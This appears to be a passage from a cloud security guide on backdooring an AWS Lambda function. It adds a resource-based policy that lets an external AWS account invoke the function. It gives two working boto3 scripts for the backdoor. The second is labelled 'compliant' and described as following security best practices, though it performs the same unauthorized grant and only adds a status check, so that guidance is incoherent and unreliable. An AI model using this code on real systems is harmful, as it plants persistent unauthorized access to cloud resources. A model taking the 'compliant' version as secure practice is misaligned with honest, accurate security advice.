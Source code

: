 Backdooring a Lambda function through its resource-based policy involves modifying the permissions of the Lambda function to allow its invocation from an external AWS account. This establishes persistence by enabling unauthorized access to the function.

Noncompliant Code:
The following noncompliant code demonstrates backdooring a Lambda function by modifying its resource-based policy without considering security best practices:

```
import boto3

def backdoor_lambda_function(function_name, external_account_id):
    lambda_client = boto3.client('lambda')
    response = lambda_client.add_permission(
        FunctionName=function_name,
        StatementId='backdoor',
        Action='lambda:InvokeFunction',
        Principal='arn:aws:iam::' + external_account_id + ':root'
    )
    print("Lambda function backdoored successfully.")

# Usage
backdoor_lambda_function('my-function', '123456789012')
```

The noncompliant code uses the AWS SDK's add_permission method to modify the resource-based policy of the Lambda function. It adds a permission statement that allows the specified external AWS account to invoke the function. This code does not consider security best practices, such as proper authorization and verification.

Compliant Code:
The following compliant code demonstrates backdooring a Lambda function while following security best practices:

```
import boto3

def backdoor_lambda_function(function_name, external_account_id):
    lambda_client = boto3.client('lambda')
    response = lambda_client.add_permission(
        FunctionName=function_name,
        StatementId='backdoor',
        Action='lambda:InvokeFunction',
        Principal='arn:aws:iam::' + external_account_id + ':root'
    )
    if response['ResponseMetadata']['HTTPStatusCode'] == 201:
        print("Lambda function backdoored successfully.")
    else:
        print("Failed to backdoor Lambda function.")

# Usage
backdoor_lambda_function('my-function', '123456789012')
```

